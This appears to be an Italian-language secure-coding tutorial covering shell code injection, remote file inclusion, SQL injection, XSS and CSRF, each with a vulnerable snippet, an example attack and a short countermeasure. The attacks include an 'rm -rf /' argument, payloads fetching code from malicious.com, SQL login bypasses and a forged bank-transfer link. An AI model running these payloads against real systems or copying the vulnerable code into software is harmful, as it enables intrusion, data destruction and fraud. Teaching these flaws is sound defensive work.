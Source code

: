 ## [1] Sicurezza del codice

### Code injection

#### Bash
```sh
#!/bin/sh
echo $1
```
```sh
prova.sh 'rm -rf /'
```
##### Come evitare l'attacco?
Fare il controllo dell'input non fidato o evitare proprio di scrivere bash che girano su input non fidato.

#### Remote file inclusion
Per permettere facilitare il templating basato su routing una possibile soluzione potrebbe essere questa:

```
https://example.com?template=home
https://example.com?template=details
```

```php
<?php include($_GET['template'] . '.php');
```

Possibile exploit:
```
https://example.com?template=http://malicious.com/evil.php
```

##### Come evitare l'attacco?
Fare il controllo dell'input non fidato.

#### SQL injection
```php
$query= "SELECT role FROM user WHERE name='$name' AND password='$pwd'"; 
```

##### SQL injection (Exploit 1)
Con questo exploit è possibile autenticarsi come administrator senza conoscerne la password:

```
https://example.com/login.php?name=administrator'%20---
```
```sql
SELECT role FROM user WHERE name='administrator' ---' AND password='$pwd'
```
##### SQL injection (Exploit 2)
Con questo exploit invece neanche serve conoscere il nome utente:

```
https://example.com/login.php?name=idontknow'%20OR%201=1%20--
```
```sql
SELECT role FROM user WHERE name='idontlnow' OR 1=1 ---' AND password='$pwd'
```

##### Come evitare l'attacco?
Fare il controllo dell'input non fidato. Ad esempio fare l'escape di caratteri speciali.

### XSS (cross site scripting)

Gli attacchi cross site scripting consistono nell'iniettare codice malevolo in una pagina web. Generalmente il codice iniettato è Javascript. Javascript consente di modificare completamente il DOM. Per esempio è possibile modificare l'indirizzo http dell'action di una form di autenticazione. Questo fa si che quando l'utente inserisce le credenziali di accesso, esse vengano inviate non a un server sicuro, ma al server dell'hacker che in questo modo ottiene le credenziali di accesso. Esistono due tipologie di attacchi XSS, non persistenti e persistenti. 

#### non-persistent XSS
Questo attacco si dice non persistente in quanto non inietta permanentemente lo script nella pagina. Questo significa che la vittima deve accedere a un certo sito internet di cui si fida, mediante un indirizzo costruito ad hoc dall'attaccante. Questo è comunque problematico, in quanto l'utente controllando esclusivamente dominio e eventuale certificato SSL si fida e non può rendersi conto facilmente di trovarsi in un sito internet compromesso.

```php
<h1>Ciao, <?php echo $_GET['nome_utente']; ?></h1>
```
```
https://example.com/welcome.php?nome_utente=%3Cscript%20src=%22http://malicious.com/evil.js%22%3E%3C/script%3E"
```
```html
<h1>Ciao, <script src="http://malicious.com/evil.js"></script></h1>
```

#### persistent XSS
Identico al precedente attacco, ma il codice malevolo iniettato è permanente e visibile a chiunque visiti un certo sito internet compromesso. Questo significa che con questa tipologia di attacco non è neanche necessario accedere a un sito internet fidato mediante un particolare indirizzo http. Questo genere di attacchi può avvenire in quei siti internet che hanno guest book o che permettono di pubblicare un commento formattato con l'html.

##### Come evitare l'attacco?
Fare il controllo dell'input non fidato. In alternativa i browser moderni fanno detection di attacchi XSS client side. In passato però la XSS protection dei browser è stata spesso aggirata.


### CSRF (cross site request forgery)
```
<a href="http://securebank.com/bonifico?account=bob&amount=1000000&for=Fred">clicca qui</a> 
```
Se l'utente è già loggato, nel momento in cui fa click sul link, parte il bonifico di $1000000.

È possibile anche evitare di richiedere l'azione da parte dell'utente.

```
<img src="http://securebank.com/bonifico?account=bob&amount=1000000&for=Fred">clicca qui</a> 
```

L'immagine infatti viene caricata appena l'utente apre la pagina nel browser.

#### Contromisura
Controllare sempre il referrer header, ovvero l'indirizzo di provenienza. 